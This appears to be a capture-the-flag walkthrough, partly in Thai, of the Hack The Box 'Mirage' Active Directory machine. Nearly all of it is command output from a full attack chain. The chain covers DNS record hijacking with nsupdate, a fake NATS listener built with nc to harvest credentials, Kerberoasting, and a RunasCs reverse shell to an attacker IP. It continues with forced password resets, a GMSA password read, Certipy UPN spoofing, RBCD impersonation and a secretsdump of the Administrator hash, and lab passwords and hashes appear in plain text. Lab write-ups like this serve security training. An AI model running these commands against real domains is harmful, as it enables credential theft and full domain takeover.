

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-21 09:42 EDT
Nmap scan report for 10.10.11.78
Host is up (0.036s latency).
Not shown: 62528 closed tcp ports (reset), 2978 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
111/tcp   open  rpcbind?
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|_  100003  2,3,4       2049/tcp6  nfs
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
|_ssl-date: TLS randomness does not represent time
2049/tcp  open  nfs             2-4 (RPC #100003)
3268/tcp  open  ldap            Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
3269/tcp  open  ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
4222/tcp  open  vrml-multi-use?
| fingerprint-strings: 
|   GenericLines: 
|     INFO {"server_id":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","server_name":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":1159,"client_ip":"10.10.14.31","xkey":"XC3ED563RGJW3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG"} 
|     -ERR 'Authorization Violation'
|   GetRequest: 
|     INFO {"server_id":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","server_name":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":1160,"client_ip":"10.10.14.31","xkey":"XC3ED563RGJW3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG"} 
|     -ERR 'Authorization Violation'
|   HTTPOptions: 
|     INFO {"server_id":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","server_name":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":1161,"client_ip":"10.10.14.31","xkey":"XC3ED563RGJW3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG"} 
|     -ERR 'Authorization Violation'
|   NULL: 
|     INFO {"server_id":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","server_name":"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":1158,"client_ip":"10.10.14.31","xkey":"XC3ED563RGJW3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG"} 
|_    -ERR 'Authentication Timeout'
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf          .NET Message Framing
47001/tcp open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc           Microsoft Windows RPC
49665/tcp open  msrpc           Microsoft Windows RPC
49666/tcp open  msrpc           Microsoft Windows RPC
49667/tcp open  msrpc           Microsoft Windows RPC
49668/tcp open  msrpc           Microsoft Windows RPC
54834/tcp open  msrpc           Microsoft Windows RPC
59348/tcp open  msrpc           Microsoft Windows RPC
59359/tcp open  ncacn_http      Microsoft Windows RPC over HTTP 1.0
59360/tcp open  msrpc           Microsoft Windows RPC
59373/tcp open  msrpc           Microsoft Windows RPC
59376/tcp open  msrpc           Microsoft Windows RPC
59395/tcp open  msrpc           Microsoft Windows RPC
59407/tcp open  msrpc           Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4222-TCP:V=7.95%I=7%D=7/21%Time=687E43E2%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1D1,"INFO\x20{\"server_id\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5
SF:ONC5I5C7YC7XQEBGBK\",\"server_name\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZR
SF:ZQN7S5ONC5I5C7YC7XQEBGBK\",\"version\":\"2\.11\.3\",\"proto\":1,\"git_c
SF:ommit\":\"a82cfda\",\"go\":\"go1\.24\.2\",\"host\":\"0\.0\.0\.0\",\"por
SF:t\":4222,\"headers\":true,\"auth_required\":true,\"max_payload\":104857
SF:6,\"jetstream\":true,\"client_id\":1158,\"client_ip\":\"10\.10\.14\.31\
SF:",\"xkey\":\"XC3ED563RGJW3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG\"
SF:}\x20\r\n-ERR\x20'Authentication\x20Timeout'\r\n")%r(GenericLines,1D2,"
SF:INFO\x20{\"server_id\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7
SF:YC7XQEBGBK\",\"server_name\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ON
SF:C5I5C7YC7XQEBGBK\",\"version\":\"2\.11\.3\",\"proto\":1,\"git_commit\":
SF:\"a82cfda\",\"go\":\"go1\.24\.2\",\"host\":\"0\.0\.0\.0\",\"port\":4222
SF:,\"headers\":true,\"auth_required\":true,\"max_payload\":1048576,\"jets
SF:tream\":true,\"client_id\":1159,\"client_ip\":\"10\.10\.14\.31\",\"xkey
SF:\":\"XC3ED563RGJW3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG\"}\x20\r\
SF:n-ERR\x20'Authorization\x20Violation'\r\n")%r(GetRequest,1D2,"INFO\x20{
SF:\"server_id\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGB
SF:K\",\"server_name\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7
SF:XQEBGBK\",\"version\":\"2\.11\.3\",\"proto\":1,\"git_commit\":\"a82cfda
SF:\",\"go\":\"go1\.24\.2\",\"host\":\"0\.0\.0\.0\",\"port\":4222,\"header
SF:s\":true,\"auth_required\":true,\"max_payload\":1048576,\"jetstream\":t
SF:rue,\"client_id\":1160,\"client_ip\":\"10\.10\.14\.31\",\"xkey\":\"XC3E
SF:D563RGJW3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG\"}\x20\r\n-ERR\x20
SF:'Authorization\x20Violation'\r\n")%r(HTTPOptions,1D2,"INFO\x20{\"server
SF:_id\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK\",\"se
SF:rver_name\":\"NDYNZFHEFVFRA5BUBDJPXIVFC45Y2JZRZQN7S5ONC5I5C7YC7XQEBGBK\
SF:",\"version\":\"2\.11\.3\",\"proto\":1,\"git_commit\":\"a82cfda\",\"go\
SF:":\"go1\.24\.2\",\"host\":\"0\.0\.0\.0\",\"port\":4222,\"headers\":true
SF:,\"auth_required\":true,\"max_payload\":1048576,\"jetstream\":true,\"cl
SF:ient_id\":1161,\"client_ip\":\"10\.10\.14\.31\",\"xkey\":\"XC3ED563RGJW
SF:3MKUPTDPDCAORKDZOZQYZBOHIK5C7BZ4MEE7CXDRWABG\"}\x20\r\n-ERR\x20'Authori
SF:zation\x20Violation'\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=7/21%OT=53%CT=1%CU=33710%PV=Y%DS=2%DC=I%G=Y%TM=687E444
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:A)SEQ(SP=103%GCD=1%ISR=101%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=104%GCD=1%ISR
OS:=10E%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=107%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS
OS:=S%TS=A)SEQ(SP=FE%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M552NW8S
OS:T11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552
OS:ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%DF=Y%T=
OS:80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2
OS:(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%
OS:F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL
OS:=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-21T20:20:37
|_  start_date: N/A
|_clock-skew: 6h36m29s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.66 seconds


```

NFS Service (Port 2049) - อาจมี shares ที่เข้าถึงได้


showmount -e 10.10.11.78


```

┌──(kali㉿kali)-[/mnt]
└─$ sudo mount -t nfs 10.10.11.78:/MirageReports /mnt/nfs_share    

mount type nfs MirageReports มาที่ /mnt/nfs_share

┌──(kali㉿kali)-[/mnt]
└─$ sudo cp /mnt/nfs_share/*.pdf /tmp/  

┌──(kali㉿kali)-[/tmp]
└─$ sudo chown kali Incident_Report_Missing_DNS_Record_nats-svc.pdf
                                                                                                                                                                                                 
┌──(kali㉿kali)-[/tmp]
└─$ sudo chown kali Mirage_Authentication_Hardening_Report.pdf    

```


-DNS Poisoning: ใช้ nsupdate เปลี่ยน DNS record ให้ nats-svc.mirage.htb ชี้ไปยัง IP เรา

-"hostname is critical for internal service communication with the NATS messaging system hosted on the Mirage domain"


https://docs.nats.io/reference/reference-protocols/nats-protocol

```

┌──(kali㉿kali)-[~/Downloads]
└─$ nsupdate dns_update.txt                                                                 
                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads]
└─$ echo 'INFO {"auth_required":true}' | nc -l -p 4222
CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"hx5h7F5554fP@1337!","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":false,"no_responders":false}
PING

                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/Downloads]
└─$ cat dns_update.txt
server 10.10.11.78
update add nats-svc.mirage.htb 3600 A 10.10.14.8
send


```

มาอธิบายทีละขั้นตอนว่าการใช้ `nc` เพื่อ intercept credentials ทำงานอย่างไร:

## ขั้นตอนการทำงาน

### 1. DNS Poisoning
```bash
# เปลี่ยน DNS record ให้ชี้มาที่เครื่องเรา
cat dns_update.txt
server 10.10.11.78
update add nats-svc.mirage.htb 3600 A 10.10.14.8  # IP ของเรา
send

nsupdate dns_update.txt
```

### 2. สร้าง Fake NATS Server
```bash
echo 'INFO {"server_id":"FAKE","version":"2.11.0","auth_required":true}' | nc -l -p 4222
```

**การทำงาน:**
- `nc -l -p 4222` = netcat listen ที่ port 4222
- เมื่อมี client เชื่อมต่อเข้ามา netcat จะ**ส่งข้อความ INFO ทันที**
- ข้อความ INFO นี้เป็นการ**หลอก** NATS client ให้คิดว่าเป็น real NATS server

### 3. NATS Client เชื่อมต่อ

เมื่อ NATS client พยายามเชื่อมต่อไปยัง `nats-svc.mirage.htb:4222`:

```
Client → DNS lookup nats-svc.mirage.htb → ได้ IP 10.10.14.8 (เครื่องเรา)
Client → TCP connect ไปยัง 10.10.14.8:4222
```

### 4. Protocol Handshake (หลอกลวง)

```
← Server (fake): INFO {"server_id":"FAKE","version":"2.11.0","auth_required":true}
→ Client: CONNECT {"user":"Dev_Account_A","pass":"hx5h7F5554fP@1337!",...}
→ Client: PING
```

## ทำไม Client ถึงส่ง Credentials มา?

1. **Client เห็น `auth_required":true`** ใน INFO message
2. **Client คิดว่าเป็น real server** เพราะได้รับ INFO message ที่ถูกต้องตาม protocol
3. **Client ส่ง CONNECT message** พร้อม username/password
4. **เราดักจับได้** credentials ก่อนที่ connection จะปิด

## ทำไมใช้ `echo | nc` ได้?

```bash
echo 'INFO message' | nc -l -p 4222
```

**ลำดับการทำงาน:**
1. `nc -l -p 4222` เริ่ม listen
2. Client เชื่อมต่อเข้ามา
3. netcat **ส่ง INFO message จาก pipe ทันที**
4. Client รับ INFO และตอบกลับด้วย CONNECT
5. netcat **แสดงข้อมูลที่ client ส่งมา** บน terminal
6. Connection ปิด


{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}


 nathan.aadam เป็น service account ที่รับผิดชอบ web services 

 User account ที่มี SPN สามารถถูก Kerberoast ได้เมื่อ request Kerberos ticket สำหรับ SPN นี้ จะได้ TGS ticket ที่ encrypted ด้วย password hash ของ userสามารถ crack TGS ticket offline เพื่อหา plaintext password


nathan.aadam : 3edc#EDC3


```
┌──(kali㉿kali)-[~/Downloads/hackthebox/Machines/Mirage]
└─$ impacket-GetUserSPNs mirage.htb/david.jjackson:'pN8kQmn6b86!1234@' -request -dc-host dc01.mirage.htb -k

┌──(kali㉿kali)-[~/AD-tools/pywhisker/pywhisker]
└─$ kinit nathan.aadam@MIRAGE.HTB                      
Password for nathan.aadam@MIRAGE.HTB: 
                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/AD-tools/pywhisker/pywhisker]
└─$ evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB


```


 mark.bbond  :  1day@atime


 *Evil-WinRM* PS C:\tool> ./RunasCs.exe mark.bbond 1day@atime powershell -r 10.10.14.8:4444


```
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-getTGT mirage.htb/mark.bbond:'1day@atime'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in mark.bbond.ccache
                                                                                                                                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ export KRB5CCNAME=mark.bbond.ccache 
                                                                                                                                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ bloodyAD -k --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' set password JAVIER.MMARSHALL 'NewPassword1234!'
[+] Password changed successfully!

┌──(kali㉿kali)-[~/Downloads]
└─$ bloodyAD -k --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' get object "javier.mmarshall" --attr userAccountControl

distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
                                                                                                                                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ bloodyAD --host dc01.mirage.htb -d mirage.htb -k remove uac JAVIER.MMARSHALL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from JAVIER.MMARSHALL's userAccountControl
                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Downloads]
└─$ bloodyAD -k --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' get object "javier.mmarshall" --attr userAccountControl

distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD

└─$ impacket-getTGT mirage.htb/javier.mmarshall:'NewPassword1234!'                                                                                     
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)


```
## fix  KDC_ERR_CLIENT_REVOKED by set logonHours

```
┌──(kali㉿kali)-[~/AD-tools]
└─$ kinit nathan.aadam@MIRAGE.HTB              
Password for nathan.aadam@MIRAGE.HTB: 
                                             
┌──(kali㉿kali)-[~/AD-tools]
└─$ evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB

*Evil-WinRM* PS C:\Users\nathan.aadam\Documents> upload RunasCs.exe
./RunasCs.exe mark.bbond 1day@atime powershell -r 10.10.14.26:4444

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

PS C:\> Set-ADUser javier.mmarshall -Replace @{logonHours=[byte[]]@(255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255)}


┌──(kali㉿kali)-[~/Downloads]
└─$ bloodyAD -k --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' get object "javier.mmarshall"  --attr userAccountControl,logonHours 

distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
logonHours: ////////////////////////////
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD


──(kali㉿kali)-[~/Downloads]
└─$ bloodyAD -k --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' get object "javier.mmarshall"  --attr userAccountControl,logonHours 

distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
logonHours: ////////////////////////////
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD


```


```
┌──(kali㉿kali)-[~/Downloads]
└─$ kinit javier.mmarshall@MIRAGE.HTB                        
Password for javier.mmarshall@MIRAGE.HTB: 
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ bloodyAD -k --host dc01.mirage.htb -d mirage.htb -u javier.mmarshall -p 'NewPassword1234!' get object 'Mirage-Service$' --attr msDS-ManagedPassword  

distinguishedName: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:305806d84f7c1be93a07aaf40f0c7866
msDS-ManagedPassword.B64ENCODED: 43A01mr7V2LGukxowctrHCsLubtNUHxw2zYf7l0REqmep3mfMpizCXlvhv0n8SFG/WKSApJsujGp2+unu/xA6F2fLD4H5Oji/mVHYkkf+iwXjf6Z9TbzVkLGELgt/k2PI4rIz600cfYmFq99AN8ZJ9VZQEqRcmQoaRqi51nSfaNRuOVR79CGl/QQcOJv8eV11UgfjwPtx3lHp1cXHIy4UBQu9O0O5W0Qft82GuB3/M7dTM/YiOxkObGdzWweR2k/J+xvj8dsio9QfPb9QxOE18n/ssnlSxEI8BhE7fBliyLGN7x/pw7lqD/dJNzJqZEmBLLVRUbhprzmG29yNSSjog==


```


```
┌──(kali㉿kali)-[~/Downloads]
└─$ export KRB5CCNAME=Mirage-Service\$.ccache 
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ certipy account update \
  -user 'mark.bbond' \
  -upn 'dc01$@mirage.htb' \
  -u 'mirage-service$@mirage.htb' \
  -k -no-pass \
  -dc-ip $IP \
  -target dc01.mirage.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'mark.bbond':
    userPrincipalName                   : dc01$@mirage.htb
[*] Successfully updated 'mark.bbond'
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ 
export KRB5CCNAME=mark.bbond.ccache
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ 
export KRB5CCNAME=mark.bbond.ccache 
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ certipy req -u mark.bbond@mirage.htb -no-pass -k -ca mirage-DC01-CA -template User -dc-ip $IP -dc-host dc01.mirage.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 19
[*] Successfully requested certificate
[*] Got certificate with UPN 'dc01$@mirage.htb'
[*] Certificate object SID is 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Saving certificate and private key to 'dc01.pfx'
File 'dc01.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'dc01.pfx'
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ export KRB5CCNAME=Mirage-Service\$.ccache
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ certipy-ad account \
  -u 'mirage-service$' \
  -k -no-pass \
  -target 'dc01.mirage.htb' \
  -upn 'mark.bbond@mirage.htb' \
  -user 'mark.bbond' \
  update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.mirage.htb.
[!] Use -debug to print a stacktrace
[*] Updating user 'mark.bbond':
    userPrincipalName                   : mark.bbond@mirage.htb
[*] Successfully updated 'mark.bbond'
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ certipy auth -pfx dc01.pfx -dc-ip $IP -ldap-shell
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'dc01$@mirage.htb'
[*]     Security Extension SID: 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Connecting to 'ldaps://10.10.11.78:636'
[*] Authenticated to '10.10.11.78' as: 'u:MIRAGE\\DC01$'
Type help for list of commands

# whoami
u:MIRAGE\DC01$

# set_rbcd dc01$ Mirage-Service$
Found Target DN: CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
Target SID: S-1-5-21-2127163471-3824721834-2568365109-1000

Found Grantee DN: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
Grantee SID: S-1-5-21-2127163471-3824721834-2568365109-1112
Currently allowed sids:
    S-1-5-21-2127163471-3824721834-2568365109-1112
Grantee is already permitted to perform delegation to the target host

# exit
Bye!

┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-getTGT -dc-ip $IP "mirage.htb/Mirage-Service$" -hashes :305806d84f7c1be93a07aaf40f0c7866
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Mirage-Service$.ccache
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ export KRB5CCNAME='Mirage-Service$.ccache'
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-getST -spn 'cifs/dc01.mirage.htb' -impersonate 'dc01$' -dc-ip $IP  'mirage.htb/Mirage-Service$' -k -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating dc01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc01$@cifs_dc01.mirage.htb@MIRAGE.HTB.ccache
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ KRB5CCNAME='dc01$@cifs_dc01.mirage.htb@MIRAGE.HTB.ccache'
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-secretsdump 'dc01$'@dc01.mirage.htb -k -no-pass -dc-ip $IP -just-dc-user administrator
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
mirage.htb\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b9c0e3560f5a29eeb1afb3:::
[*] Kerberos keys grabbed
mirage.htb\Administrator:aes256-cts-hmac-sha1-96:09454bbc6da252ac958d0eaa211293070bce0a567c0e08da5406ad0bce4bdca7
mirage.htb\Administrator:aes128-cts-hmac-sha1-96:47aa953930634377bad3a00da2e36c07
mirage.htb\Administrator:des-cbc-md5:e02a73baa10b8619
[*] Cleaning up... 

                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ export KRB5CCNAME=dc01\$@cifs_dc01.mirage.htb@MIRAGE.HTB.ccache
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-secretsdump 'dc01$'@dc01.mirage.htb -k -no-pass -dc-ip $IP -just-dc-user administrator
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
mirage.htb\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b9c0e3560f5a29eeb1afb3:::
[*] Kerberos keys grabbed
mirage.htb\Administrator:aes256-cts-hmac-sha1-96:09454bbc6da252ac958d0eaa211293070bce0a567c0e08da5406ad0bce4bdca7
mirage.htb\Administrator:aes128-cts-hmac-sha1-96:47aa953930634377bad3a00da2e36c07
mirage.htb\Administrator:des-cbc-md5:e02a73baa10b8619
[*] Cleaning up... 
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-getTGT -dc-ip $IP "mirage.htb/Administrator" -hashes :7be6d4f3c2b9c0e3560f5a29eeb1afb3
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator.ccache
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ export KRB5CCNAME=Administrator.ccache
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB


```



